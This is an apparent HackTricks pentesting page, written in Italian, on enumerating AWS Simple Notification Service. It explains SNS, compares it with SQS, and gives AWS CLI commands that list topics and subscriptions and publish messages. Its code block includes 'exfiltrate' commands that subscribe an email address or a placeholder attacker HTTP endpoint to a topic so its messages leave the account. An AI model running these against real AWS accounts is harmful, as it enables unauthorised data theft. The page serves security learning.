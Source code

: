 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS) è descritto come un **servizio di messaggistica completamente gestito**. Supporta sia i tipi di comunicazione **application-to-application** (A2A) che **application-to-person** (A2P).

Le caratteristiche chiave per la comunicazione A2A includono i **meccanismi di pubblicazione/sottoscrizione (pub/sub)**. Questi meccanismi introducono **argomenti**, cruciali per abilitare messaggi **push-based** ad alta capacità, **many-to-many**. Questa funzionalità è altamente vantaggiosa in scenari che coinvolgono sistemi distribuiti, microservizi e architetture serverless basate su eventi. Sfruttando questi argomenti, i sistemi di pubblicazione possono distribuire messaggi in modo efficiente a un **ampio numero di sistemi di sottoscrizione**, facilitando un modello di messaggistica fanout.

### **Differenza con SQS**

**SQS** è un servizio **basato su coda** che consente comunicazioni punto a punto, garantendo che i messaggi siano elaborati da un **singolo consumatore**. Offre **consegna almeno una volta**, supporta code standard e FIFO, e consente la retention dei messaggi per ripetizioni e elaborazione ritardata.\
D'altra parte, **SNS** è un servizio **basato su pubblicazione/sottoscrizione**, che consente comunicazioni **one-to-many** trasmettendo messaggi a **più sottoscrittori** simultaneamente. Supporta **vari endpoint di sottoscrizione come email, SMS, funzioni Lambda e HTTP/HTTPS**, e fornisce meccanismi di filtraggio per la consegna mirata dei messaggi.\
Sebbene entrambi i servizi consentano il disaccoppiamento tra i componenti nei sistemi distribuiti, SQS si concentra sulla comunicazione in coda, mentre SNS enfatizza i modelli di comunicazione basati su eventi e fan-out.

### **Enumerazione**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> Nota che se il **topic è di tipo FIFO**, possono essere utilizzati solo gli abbonati che utilizzano il protocollo **SQS** (HTTP o HTTPS non possono essere utilizzati).
>
> Inoltre, anche se il `--topic-arn` contiene la regione, assicurati di specificare la regione corretta in **`--region`** o riceverai un errore che sembra indicare che non hai accesso, ma il problema è la regione.

#### Accesso Non Autenticato

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md
{{#endref}}

#### Escalation dei Privilegi

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc.md
{{#endref}}

#### Post Sfruttamento

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation.md
{{#endref}}

#### Persistenza

{{#ref}}
../aws-persistence/aws-sns-persistence.md
{{#endref}}

## Riferimenti

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
